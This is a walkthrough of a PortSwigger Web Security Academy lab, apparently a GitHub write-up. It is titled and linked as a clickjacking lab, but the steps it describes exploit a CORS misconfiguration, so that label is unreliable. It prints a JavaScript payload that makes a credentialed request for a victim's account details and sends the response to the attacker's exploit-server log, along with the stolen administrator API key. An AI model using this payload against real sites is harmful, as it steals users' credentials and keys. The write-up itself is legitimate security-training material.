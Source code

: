 ## Welcome, my friend. Today we will start the [1. Clickjacking lab](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/9bb4be6f-d090-407a-942d-806ee13d321d)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/8de82c2d-38b8-4e9c-a2c7-8ef6e02498a5)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/f7a8214f-a4a0-4a9b-94db-ef953479687b)


### Now, We will use ```burp suite``` and intercept this requst:

![image](https://github.com/user-attachments/assets/12166337-ca1b-417e-b9b1-b46311e30af8)

## Try add origin header in header request such as:

```
Origin: http://mohamed.com
```

![image](https://github.com/user-attachments/assets/c628ea00-42ff-4798-a0dc-82bdde16b963)


### This website is weak with CORS vulnerability , Now go to server exploit and add this code:

```
<html>
<body>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a6a003b03194f2480ceaddb00020097.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
</body>
</html>
```

### enter ```sotre``` and ```Deliver exploit to vitim``` then ```access log```:

![image](https://github.com/user-attachments/assets/46b26c0a-0731-461c-9429-18cc212eb2a9)


### api of administrator: ```GCOy54QZY3TpGYnnLbMK8borG8juRSJr```

![image](https://github.com/user-attachments/assets/cc1a059b-67d4-4b31-b726-4274fcafe02f)

![image](https://github.com/user-attachments/assets/6d88c4c0-a4f0-48e8-9911-2ab6c164bc65)



-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
